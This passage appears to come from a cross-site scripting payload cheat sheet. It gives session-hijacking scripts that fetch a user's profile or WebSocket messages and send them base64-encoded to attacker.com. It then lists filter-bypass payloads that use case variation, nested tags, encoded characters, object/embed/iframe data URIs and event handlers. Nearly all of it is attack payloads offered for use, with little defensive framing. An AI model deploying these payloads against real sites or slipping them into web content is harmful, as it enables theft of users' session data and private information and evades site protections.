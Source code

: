 ```javascript
```

#### Session Hijacking

```javascript
# Session Hijacker
<script>
fetch('/api/user/profile')
  .then(r=>r.json())
  .then(data=>fetch('https://attacker.com/logger?data='+btoa(JSON.stringify(data))));
</script>

# WebSocket Hijacker
<script>
var ws = new WebSocket('wss://target.com/ws');
ws.onmessage = function(e) {
  fetch('https://attacker.com/ws-log?data='+btoa(e.data));
};
</script>
```

## Bypass Techniques

### Basic Tag Bypass

Used when basic XSS protections are in place:

```javascript
# Case Variation
<ScRiPt>alert(1)</ScRiPt>
<IMG SRC=x onerror=alert(1)>

# Tag Obfuscation
<scr<script>ipt>alert(1)</scr</script>ipt>
<img src=x onerror=alert&#x28;1&#x29>
```

### Filter Evasion

Used when specific keywords or patterns are blocked:

```javascript
# Script Tag Alternatives
<object data="data:text/html,<script>alert(1)</script>">
<embed src="data:text/html,<script>alert(1)</script>">
<iframe src="javascript:alert(1)">

# Event Handler Alternatives
onmouseover=alert(1)
OnMoUsEoVeR=alert(1)
/onclick=alert(1)//
```
